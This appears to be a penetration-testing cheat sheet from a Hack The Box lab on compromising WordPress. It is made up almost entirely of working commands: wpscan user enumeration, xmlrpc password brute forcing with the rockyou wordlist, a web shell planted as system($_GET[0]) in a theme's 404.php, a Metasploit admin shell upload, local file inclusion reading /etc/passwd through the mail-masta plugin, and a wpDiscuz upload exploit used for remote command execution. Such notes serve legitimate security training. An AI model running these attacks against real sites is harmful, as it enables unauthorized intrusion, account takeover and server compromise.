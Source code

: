 ## Enumeration 
`L3pr3ch4un@htb[/htb]$ sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>`

**Enumerate Users**

`wpscan –url http://example.com –enumerate u`
Api:*/wp-json/wp/v2/users*

**Password Brute force**

`L3pr3ch4un@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local`
**Code Execution**

**Note: Use Alternative theme like  Twenty Nineteen**

`Appearence`>`Theme Editor`>`404.php`>`system($_GET[0]);`

```
L3pr3ch4un@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
`msf6 > use exploit/unix/webapp/wp_admin_shell_upload`

## Vulnerabilities

**Note:** We can use the waybackurls tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.

**Vulnerable Plugins - mail-masta**

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

**Vulnerable Plugins - wpDiscuz**

`version number (7.0.4)`

https://www.exploit-db.com/exploits/49967

`L3pr3ch4un@htb[/htb]$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1`

`L3pr3ch4un@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id`

